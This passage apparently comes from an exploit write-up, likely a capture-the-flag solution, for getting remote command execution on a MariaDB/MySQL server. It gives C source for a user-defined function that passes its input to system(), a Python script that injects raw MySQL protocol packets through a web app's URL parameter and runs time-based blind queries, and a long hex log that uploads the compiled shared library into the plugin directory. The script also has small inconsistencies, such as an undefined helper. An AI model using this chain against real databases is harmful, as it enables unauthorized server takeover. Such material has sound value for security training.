Now we'll compile it, the program is pretty simple, on the main function it checks if the argument count is `1` and that the type of argument is string, next it will pass it over to the `system()` function.

```sh
root@deafbeef:/tmp# gcc -s -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys_exec64.so lib_mysqludf_sys_exec64.c
root@deadbeef:/tmp# file lib_mysqludf_sys_exec64.so
lib_mysqludf_sys_exec64.so: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=b5c712f0e1a0feeeb3d14d5a4cafb0156a91c2ab, stripped
```

* [lib_mysqludf_sys_exec64.so](/compiled/lib_mysqludf_sys_exec64.so) (`ed4ef869b75d47581b734ed0128b6af7b1575f7a6c6eaa39a74aa516b8b48a90`)

```c
#include <string.h>
#include <stdlib.h>
#include <mysql.h>

my_ulonglong sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  return system(args->args[0]);
}

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
  if (args->arg_count == 1 && args->arg_type[0] == STRING_RESULT) {
    return 0;
  } else {
    strcpy(message, "Expected exactly one string type parameter");
    return -1;
  }
}

void sys_exec_deinit(UDF_INIT *initid);
```

Now we'll load the plugin, in order to do that we need to place it to the `plugin_dir` that is configured my MySQL.

```sql
MariaDB [(none)]> SELECT @@global.plugin_dir;
+---------------------------------------------+
| @@global.plugin_dir                         |
+---------------------------------------------+
| /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------------------------------------+
1 row in set (0.000 sec)

MariaDB [(none)]> SELECT ISNULL(LOAD_FILE('/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_exec64.so'));
+--------------------------------------------------------------------------------------------+
| ISNULL(LOAD_FILE('/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_exec64.so')) |
+--------------------------------------------------------------------------------------------+
|                                                                                          0 |
+--------------------------------------------------------------------------------------------+
1 row in set (0.002 sec)

MariaDB [(none)]> SELECT ISNULL(LOAD_FILE('/tmp/kak.txt'));
+-----------------------------------+
| ISNULL(LOAD_FILE('/tmp/kak.txt')) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
1 row in set (0.001 sec)

MariaDB [(none)]> CREATE OR REPLACE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys_exec64.so';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> SELECT sys_exec(1);
ERROR 1123 (HY000): Can't initialize function 'sys_exec'; Expected exactly one string type parameter

MariaDB [(none)]> SELECT sys_exec('echo makelaris >> /tmp/kak.txt');
+--------------------------------------------+
| sys_exec('echo makelaris >> /tmp/kak.txt') |
+--------------------------------------------+
|                                          0 |
+--------------------------------------------+
1 row in set (0.007 sec)

MariaDB [(none)]> SELECT ISNULL(LOAD_FILE('/tmp/kak.txt'));
+-----------------------------------+
| ISNULL(LOAD_FILE('/tmp/kak.txt')) |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.000 sec)

```

Now we'll utilise `SELECT foo INTO DUMPFILE location` to move our shared library on the server's `plugin_dir` directive.

```python
import requests, struct

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

execute = lambda packet: requests.post(HOST, {'url': packet}).elapsed.total_seconds() > 0.4

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4>
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # null terminated
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = ''
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(user, query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query

get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
create_file = 'SELECT {contents} INTO DUMPFILE "{filename}"'
get_file_not_exists = 'SELECT SLEEP(isnull(LOAD_FILE(0x{file})))'

def send(payload, debug=False, **kwargs):
	if debug is True:
		print payload.format(**kwargs)
	return execute(construct_query_packet(payload.format(**kwargs)))

plugin_dir = retrieve(get_env, env='plugin_dir') # -> /usr/lib/x86_64-linux-gnu/mariadb19/plugin/

def plant_long_file(filename, chunksize=64):

	send('DROP TABLE IF EXISTS mysql.temp')
	send('CREATE TABLE IF NOT EXISTS mysql.temp (data BLOB)')

	with open(filename, 'rb') as f:
		for i, chunk in enumerate(iter(lambda: f.read(chunksize).encode('hex'), b'')):
			if i is 0:
				send('INSERT INTO mysql.temp (data) VALUES (binary 0x{contents})'.format(contents=chunk))
			else:
				send('UPDATE mysql.temp SET data = concat(data, binary 0x{contents})'.format(contents=chunk))

	send(create_file, contents='binary data FROM mysql.temp', filename=plugin_dir + filename)

# architecture = retrieve(get_env, env='version_compile_machine') -> debian-linux-gnu
# os_system = retrieve(get_env, env='version_compile_os') -> x86_64

plugin_file = 'lib_mysqludf_sys_exec64.so'

if send(get_file_not_exists, file=(plugin_dir + plugin_file).encode('hex')):
	plant_long_file(plugin_file)

'''
// ubuntu bionic x64
// gcc -s -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys_exec64.so lib_mysqludf_sys_exec64.c

#include <string.h>
#include <stdlib.h>
#include <mysql.h>

my_ulonglong sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  return system(args->args[0]);
}

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
  if (args->arg_count == 1 && args->arg_type[0] == STRING_RESULT) {
    return 0;
  } else {
    strcpy(message, "Expected exactly one string type parameter");
    return 1;
  }
}

void sys_exec_deinit(UDF_INIT *initid);
'''
```

```sql
SELECT SLEEP(isnull(LOAD_FILE(0x2f7573722f6c69622f7838365f36342d6c696e75782d676e752f6d61726961646231392f706c7567696e2f6c69625f6d7973716c7564665f7379735f6578656336342e736f)))
DROP TABLE IF EXISTS mysql.temp
CREATE TABLE IF NOT EXISTS mysql.temp (data BLOB)
INSERT INTO mysql.temp (data) VALUES (binary 0x7f454c4602010100000000000000000003003e000100000050100000000000004000000000000000203100000000000000000000400038000900400019001800)
UPDATE mysql.temp SET data = concat(data, binary 0x0100000004000000000000000000000000000000000000000000000000000000c804000000000000c80400000000000000100000000000000100000005000000)
UPDATE mysql.temp SET data = concat(data, binary 0x001000000000000000100000000000000010000000000000c901000000000000c901000000000000001000000000000001000000040000000020000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00200000000000000020000000000000cc00000000000000cc0000000000000000100000000000000100000006000000102e000000000000103e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x103e0000000000001802000000000000200200000000000000100000000000000200000006000000202e000000000000203e000000000000203e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xc001000000000000c001000000000000080000000000000004000000040000003802000000000000380200000000000038020000000000002400000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2400000000000000040000000000000050e57464040000000020000000000000002000000000000000200000000000002c000000000000002c00000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x52e5746404000000102e000000000000103e000000000000103e000000000000f001000000000000f00100000000000001000000000000000400000014000000)
UPDATE mysql.temp SET data = concat(data, binary 0x03000000474e550004f8f1367a08a00b76c1c4cfcf1a685a707e5d0b000000000200000006000000010000000600000000000000040100180600000007000000)
UPDATE mysql.temp SET data = concat(data, binary 0xa968be123b9fd4a00000000000000000000000000000000000000000000000001000000020000000000000000000000000000000000000005e00000012000000)
UPDATE mysql.temp SET data = concat(data, binary 0x000000000000000000000000000000000100000020000000000000000000000000000000000000002c0000002000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x4600000022000000000000000000000000000000000000005500000012000c0005110000000000002f000000000000006500000012000c003411000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x8a00000000000000005f5f676d6f6e5f73746172745f5f005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f72656769737465)
UPDATE mysql.temp SET data = concat(data, binary 0x72544d436c6f6e655461626c65005f5f6378615f66696e616c697a65007379735f657865630073797374656d007379735f657865635f696e6974006c6962632e)
UPDATE mysql.temp SET data = concat(data, binary 0x736f2e3600474c4942435f322e322e3500000000000002000000000002000100010000000000000001000100730000001000000000000000751a690900000200)
UPDATE mysql.temp SET data = concat(data, binary 0x7d00000000000000103e00000000000008000000000000000011000000000000183e0000000000000800000000000000c0100000000000002040000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x08000000000000002040000000000000e03f00000000000006000000010000000000000000000000e83f00000000000006000000030000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xf03f00000000000006000000040000000000000000000000f83f0000000000000600000005000000000000000000000018400000000000000700000002000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x4883ec08488b05dd2f00004885c07402ffd04883c408c3000000000000000000ff35e22f0000ff25e42f00000f1f4000ff25e22f00006800000000e9e0ffffff)
UPDATE mysql.temp SET data = concat(data, binary 0xff25b22f000066900000000000000000488d3dd12f0000488d05ca2f00004839f87415488b05762f00004885c07409ffe00f1f8000000000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x488d3da12f0000488d359a2f00004829fe48c1fe034889f048c1e83f4801c648d1fe7414488b05452f00004885c07408ffe0660f1f440000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x803d612f000000752f5548833d262f0000004889e5740c488b3d422f0000e85dffffffe868ffffffc605392f0000015dc30f1f8000000000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xe97bffffff554889e54883ec2048897df8488975f0488955e848894de0488b45f0488b4010488b004889c7e800ffffff4898c9c3554889e548897df8488975f0)
UPDATE mysql.temp SET data = concat(data, binary 0x488955e8488b45f08b0083f8017515488b45f0488b40088b0085c07507b800000000eb58488b45e848ba457870656374656448b92065786163746c7948891048)
UPDATE mysql.temp SET data = concat(data, binary 0x89480848be206f6e652073747248bf696e672074797065488970104889781848b920706172616d65744889482066c740286572c6402a00b8010000005dc30000)
UPDATE mysql.temp SET data = concat(data, binary 0x4883ec084883c408c300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x011b033b2c0000000400000020f0ffff4800000040f0ffff7000000005f1ffff8800000034f1ffffa8000000000000001400000000000000017a520001781001)
UPDATE mysql.temp SET data = concat(data, binary 0x1b0c070890010000240000001c000000d0efffff20000000000e10460e184a0f0b770880003f1a3b2a332422000000001400000044000000c8efffff08000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000001c0000005c00000075f0ffff2f00000000410e108602430d066a0c07080000001c0000007c00000084f0ffff8a00000000410e108602430d)
UPDATE mysql.temp SET data = concat(data, binary 0x0602850c070800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
